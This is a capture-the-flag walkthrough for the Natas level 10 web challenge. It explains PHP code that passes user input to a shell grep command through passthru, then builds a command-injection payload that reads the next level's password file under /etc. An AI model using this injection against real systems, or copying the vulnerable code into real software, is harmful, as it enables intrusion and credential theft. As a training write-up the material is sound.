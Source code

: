 # Level 10
This level builds on the previous level by intoducing some additional constraints.

## Quest 
We are presented with a webpage containing msg "_For security reasons, we now filter on certain characters_".

![Level 10 Image](./images/Level10.png)

From the source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // and If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```
<br/><br/>

## Solution
From the source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate a command.

Now to construct our payload, we do some tests in our local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
<span id="green">Takeaway:</span><br/>
    1. We can use `grep` to view the contents of a file<br/>
    2. `\` is used in multiline linux commands to split command to next line when command is too long<br/>
    3. But if we put a space after `\`, then it terminates the command<br/>

So, Our payload becomes    `"" /etc/natas_webpass/natas11 \`
<br/>Note that we don't need to add extra space at the end as its added for us when `grep` command is run.<br/>

Now, we put our payload in the form and it reveals the password for next Level

![Level10 Solution](./images/Level10_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

